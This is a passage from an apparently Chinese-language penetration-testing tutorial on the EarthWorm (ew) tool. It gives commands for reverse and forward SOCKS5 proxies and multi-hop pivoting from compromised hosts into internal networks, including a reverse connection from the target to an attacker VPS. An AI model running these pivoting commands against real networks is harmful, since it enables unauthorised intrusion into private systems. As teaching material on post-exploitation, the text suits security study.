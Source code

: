 在目标主机上执行以下命令：

    
    
    ew -s rssocks -d vps_ip -e 4444
    
    
    -d 设置反弹主机 IP
    
    
    > .\ew_for_Win.exe -s rssocks -d 172.16.214.52 -e 4444

这条命令表示在本地开启 socks 5 服务，并反弹到 vps 的 4444 端口，如果代理建立成功，在 VPS 端就会看到 `rssocks
cmd_socket OK!` 的提示。

最后，代理 vps 的 1080 端口就可以访问到目标主机的内网了。

![](https://gitee.com/fuli009/images/raw/master/public/20211027204340.png)

#### c、二级网络环境（一）

有这样的一个网络环境，目标主机A有两个网卡，一个内网地址一个公网地址，但这个主机只能访问内网主机B不能访问其他内网资源，而内网主机B不能访问外网但是能访问内网资源。

在拿到这两台主机权限后，就可以使用 ew 进行二级跳板访问到内网资源。

    
    
    内网主机A（有公网IP） --》内网主机B --》内网资源

在内网主机B上，开启正向连接代理

    
    
    ew -s ssocksd -l 4444
    
    
    > .\ew_for_Win.exe -s ssocksd -l 4444

在内网主机A上

    
    
    ew -s lcx_tran -l 1080 -f hostB_ip -g 4444
    
    
    > ./ew_for_linux64 -s lcx_tran -l 1080 -f 192.168.7.110 -g 4444

这条命令表示将 1080 端口收到的代理请求转发到内网主机 B 192.168.7.110 的 4444 端口，此时就可以通过访问内网主机 A 的外网 IP
的 1080 端口访问到内网主机 B 上架设的 socks5 代理了。

#### d、二级网络环境（二）

在上面的环境中，内网主机 A 有公网 IP，如果没有公网 IP 的情况下，又该怎么办呢？这时候就需要结合反向连接了，因此需要一台公网的 VPS 主机。

    
    
    VPS --》内网主机A --》内网主机B --》内网资源

在公网 VPS 上

    
    
    ew -s lcx_listen -l 1080 -e 4444
    
    
    > ./ew_for_linux64 -s lcx_listen -l 1080 -e 4444rcsocks 0.0.0.0:1080 <--[10000 usec]--> 0.0.0.0:4444init cmd_server_for_rc herestart listen port here
